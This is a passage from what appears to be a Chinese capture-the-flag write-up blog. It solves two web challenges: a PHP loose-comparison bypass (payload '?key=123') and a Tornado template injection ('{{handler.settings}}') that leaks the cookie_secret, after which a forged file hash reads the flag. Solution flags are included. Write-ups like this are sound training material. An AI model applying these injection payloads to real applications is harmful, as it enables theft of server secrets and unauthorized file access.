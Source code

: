可以写一个mini轮，用于sql语句双写（自己写的比较渣就不放了捏

{{% /spoiler %}}

{{% spoiler "[ACTF2020 新生赛]BackupFile  |  弱比较" %}}

/index.php.bak

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}


```

看似比较复杂一点，但是if的比较是弱比较

payload

```
?key=123
```

flag{758691a1-017b-4033-899a-bd78281fbcc1}

{{% /spoiler %}}

{{% spoiler "[护网杯 2018]easy_tornado  |  ssti" %}}

/hint.txt：md5(cookie_secret+md5(filename))

/flag.txt：/fllllllllllllag

目标是找到cookie_secret，在报错页面发现可能的模板渲染

```
/error?msg={{handler.settings}}
```

得到cookie_secret: 13b08673-9199-47bc-b5a2-bb7938591e62

```
/file?filename=/fllllllllllllag&filehash=3725772b08f76e01024d81754c45f307
```
